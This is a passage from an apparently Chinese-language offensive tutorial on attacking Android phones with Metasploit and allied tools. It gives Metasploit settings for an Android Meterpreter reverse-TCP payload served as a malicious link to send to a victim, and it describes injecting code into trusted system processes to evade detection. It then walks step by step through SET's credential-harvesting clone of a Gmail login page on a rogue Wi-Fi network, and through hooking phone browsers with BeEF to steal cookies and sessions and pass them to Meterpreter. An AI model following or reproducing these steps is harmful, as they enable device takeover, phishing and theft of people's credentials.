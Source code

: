     # 设置参数
    set PAYLOAD android/meterpreter/reverse_tcp
    set LHOST 你的IP
    set SRVHOST 你的IP
    set SRVPORT 8080

    # 生成恶意链接
    exploit -j
    ```
    将生成的链接发送给目标，当目标点击链接（甚至在旧版 Android 上可能自动预览恶意视频）时，漏洞被触发，Meterpreter 直接在内存中运行。

**2. 注入到合法进程**
这是一种更高级的技术，目标是将恶意代码注入到正在运行的、受信任的系统进程（如 `com.android.phone`）中。
*   **工具**： 这通常需要结合其他工具或自定义的 Exploit，而非 Metasploit 开箱即用。思路是获得一个初始 Shell 后，使用 `ptrace` 或 `dlopen` 等技术将库注入到目标进程。
*   **优势**： 隐蔽性极高，难以被常规安全软件检测，并且权限通常与目标进程一致（可能是系统权限）。

---

### **玩法四：结合其他工具进行自动化攻击**

Metasploit 可以与其他强大的工具链结合，形成自动化攻击平台。

**1. The Social-Engineer Toolkit (SET) 集成**
SET 是社会工程学攻击的集大成者，它与 Metasploit 无缝集成，能自动化生成钓鱼网站、恶意文件等。

*   **场景：创建凭证 harvesting 攻击**
    1.  启动 SET：`setoolkit`
    2.  选择 `1) Social-Engineering Attacks`
    3.  选择 `2) Website Attack Vectors`
    4.  选择 `3) Credential Harvester Attack Method`
    5.  选择 `2) Site Cloner`
    6.  设置你的 Kali IP，并输入要克隆的网站（如 `http://www.gmail.com`）。
    7.  当目标通过你的网络（恶意 Wi-Fi）访问 Gmail 时，SET 会呈现一个克隆的登录页面，捕获他们输入的用户名和密码。
    8.  **同时**，你可以运行浏览器漏洞攻击模块（如玩法二所述），尝试在目标登录时获得一个 Meterpreter 会话。

**2. 使用 Beef-XSS 进行钩子攻击**
BeEF (The Browser Exploitation Framework) 专门用于攻击 Web 浏览器。
*   **工作流**：
    1.  启动 BeEF：`beef-xss`
    2.  在 SET 或你自己搭建的恶意网站中，插入 BeEF 的钩子脚本（`hook.js`）。
    3.  当目标的手机浏览器访问该网站时，会被 BeEF "钩住"。
    4.  在 BeEF 控制台中，你可以看到在线的浏览器，并执行数百种命令，如：
        *   获取地理位置。
        *   启动摄像头和麦克风（需要用户交互）。
        *   窃取 Cookie 和会话。
        *   发起 CSRF 攻击。
        *   如果发现浏览器有漏洞，可以 **"传递"** 给 Metasploit：在 BeEF 中，可以直接发起一个到 Metasploit 负载的请求，从而在目标手机上获得一个 Meterpreter 会话。

---
